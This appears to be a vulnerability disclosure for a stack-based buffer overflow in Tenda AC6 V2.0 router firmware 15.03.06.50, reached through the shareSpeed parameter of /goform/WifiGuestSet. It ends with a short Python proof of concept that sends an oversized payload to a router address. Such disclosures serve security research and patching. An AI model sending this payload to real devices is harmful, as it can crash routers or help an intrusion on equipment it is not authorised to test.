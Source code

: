 # Bug Report: Buffer Overflow in Tenda AC6 V2.0 15.03.06.50 Router
A critical stack-based buffer overflow vulnerability has been discovered in the Tenda AC6 V2.0 router firmware version 15.03.06.50. The vulnerability exists in the `/goform/WifiGuestSet` HTTP request handler and can be exploited by remote attackers to achieve code execution or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 V2.0 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow exists in the HTTP request handler for the `/goform/WifiGuestSet` endpoint. The vulnerability is triggered when processing requests containing the following parameters with excessive data lengths: `shareSpeed`.

![alt text](image-4.png)
![alt text](image-5.png)
![alt text](image-6.png)
![alt text](image-2.png)
![alt text](image-3.png)

## poc
![alt text](image.png)
![alt text](image-1.png)

## reproduce

```python
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'shareSpeed': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0xf0 * b'A'

send_payload("http://10.10.10.1/goform/WifiGuestSet", payload)
```
